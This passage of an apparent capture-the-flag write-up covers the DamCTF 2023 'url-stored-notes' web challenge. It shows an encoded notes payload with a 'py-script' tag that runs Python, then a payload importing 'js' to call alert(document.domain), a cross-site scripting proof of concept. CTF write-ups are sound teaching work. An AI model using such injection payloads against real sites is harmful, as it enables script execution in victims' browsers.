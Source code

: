 ![](https://github.com/siunam321/CTF-Writeups/blob/main/DamCTF-2023/images/Pasted%20image%2020230408164820.png)

Oh! We got a `SyntaxError`!!

**Which means we can execute Python code!**
```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|16:47:48(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"print(1+1)","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ABAADhdAC2ewEcDz40ozKl1G/3hGL/iB3KJyodN5MOl49OPAcw22Fx3Jn+rJO+NVYAEZn4WYPkXJKMw7WQAAMmgaOFLj01TAAFUQX1civ8ftvN9AQAAAAAEWVo=
After decoded: [{'prompt': 'print(1+1)', 'answer': 'print(2+2)', 'tag': 'py-script'}]
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DamCTF-2023/images/Pasted%20image%2020230408164951.png)

Nice!!!

**Can we execute JavaScript code??**

**After some trial and error, we can import the `js` library and execute JavaScript code!!**
```py
    notes = '''[{\"prompt\":\"import js;print(js.alert(document.domain))\",\"answer\":\"print(2+2)\",\"tag\":\"py-script\"}]'''
```
